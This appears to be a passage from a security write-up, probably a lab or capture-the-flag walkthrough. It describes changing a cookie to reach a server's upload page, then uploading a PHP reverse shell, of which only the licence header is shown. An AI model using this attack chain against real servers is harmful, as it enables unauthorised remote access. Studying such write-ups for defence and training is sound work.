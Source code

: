 ![](./IMG/21.png)

- Change it to the cookie , the upload page can be used.

![](./IMG/22.png)


## Exploit Payload


    So far, we have found the upload page , 
    Then we can exploit the server by upload reverse shell

- here are 2 sample 
```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
```